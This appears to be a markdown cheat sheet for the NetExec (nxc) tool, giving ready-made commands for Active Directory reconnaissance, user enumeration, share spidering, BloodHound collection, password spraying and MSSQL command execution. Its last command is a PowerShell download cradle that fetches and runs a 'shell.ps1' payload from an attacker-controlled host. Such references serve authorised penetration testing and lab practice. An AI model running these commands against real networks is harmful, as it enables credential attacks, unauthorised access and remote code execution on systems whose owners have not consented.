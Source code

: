 # Netexec (nxc)

## [Installation](https://www.netexec.wiki/getting-started/installation)

## Recon
* Verify Credentials
  ```bash
  nxc smb <dc hname> -u <user> -p <password>
  ```
* Enumerate users
  ```bash
  nxc smb <dc hname> -u <user> -p <password> --users
  ```
  Create a user list
  - Copy output to a .txt file
  ```bash
  cat <users.txt> |awk '{print $5}' > userlist.txt
  ```
* Enumerate Shares
  ```bash
  nxc smb <dc hname> -u <user> -p <password> --shares
  ```
  ```bash
  # Spidering shares (Exluces print$, ipc$, NETLOGON, SYSVOL
  nxc smb <dc hname> -u <user> -p <password> -M spider_plus -o EXCLUDE_FILTER='print$,NETLOGON,SYSVOL,ipc$'
  ```
  ```bash
  # Parse the resulting json file
  cat <filename> | jq '. | map_values(keys)'|grep -v 'lnk\|ini'
  ```
* Bloodhound Collection
  ```bash
  nxc ldap <dc hname> -u <user> -p <password> --bloodhound --collection All --dns-server <DNS IP>
  ```
* Password Spray
  ```bash
  nxc smb <hname or ip> -u <users.txt> -p <password_to_test> --continue-on-success
  ```

## SQL
* Run commands
  ```bash
  nxc mssql <hname> -u <user> -p <password> -x $command
  ```
  ```bash
  # Run powershell commands by capitalizing the "x"
  nxc mssql <hname> -u <user> -p <password> -X $command
  ```
  If you get an error about an untrusted domain and integrated authentication, use the `--local-auth` tag
* Download a file
  ```bash
  nxc mssql <hname> -u <user> -p <pass> --local-auth -X 'IEX(New-Object Net.WebClient).downloadString("http://10.10.14.14:8000/shell.ps1")'
  ```

